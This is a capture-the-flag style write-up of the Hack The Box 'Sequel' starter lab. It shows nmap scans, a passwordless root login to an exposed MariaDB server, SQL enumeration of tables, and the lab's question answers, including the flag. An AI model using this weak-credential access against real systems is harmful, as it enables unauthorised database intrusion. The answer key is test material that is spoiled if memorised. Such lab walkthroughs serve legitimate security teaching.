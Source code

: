 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sequel (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark> 1
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> Vulnerability / Assessment / Databases / MySQL / SQL / Reconnaissance\
  &#x20;             / Weak Credentials

<figure><img src="../../.gitbook/assets/image (118) (1).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

{% code lineNumbers="true" %}
```bash
nmap -p- -Pn --min-rate 2000 10.129.122.150
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (179) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (170) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**3306**_

***

* Then I did an exhaustive scan to get information about the service running on the open port

{% code lineNumbers="true" %}
```bash
nmap -p3306 -sVC 10.129.122.150
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (178) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (171) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**MariaDB**_

***

<figure><img src="../../.gitbook/assets/image (172) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-u**_

***

* As we found the service running was a [_MariaDB_](https://mariadb.org/) database I used the [_mysql_](../../database-attacks/tools-and-utilities.md#mysql) Linux utility to connect to it. As I didn't have any credentials, I tried using _root_ as username and gained access without being asked for a password

{% code overflow="wrap" lineNumbers="true" %}
```bash
mysql -h 10.129.122.150 -u root
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (180) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (173) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**root**_

***

<figure><img src="../../.gitbook/assets/image (174) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**\***_

***

<figure><img src="../../.gitbook/assets/image (175) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**;**_

***

* With this, I could navigate through the database information using SQL queries. I enumerated the databases present noticing a particular one named _htb_ and accessed it

{% code overflow="wrap" lineNumbers="true" %}
```sql
show databases;
use htb;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (181) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (182) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about SQL you can go [here](../../database-attacks/sql/)
{% endhint %}

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (176) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**htb**_

***

* Then I listed the tables in that database and found an interesting one named _config_. So I retrieved all the information from that table and saw there was a parameter called _flag_, which gave me the flag of the machine&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```sql
show tables;
select * from config;
exit
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (183) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (186) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (133) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**7b4bec00d1a39e3dd4e021ec3d915da8**_
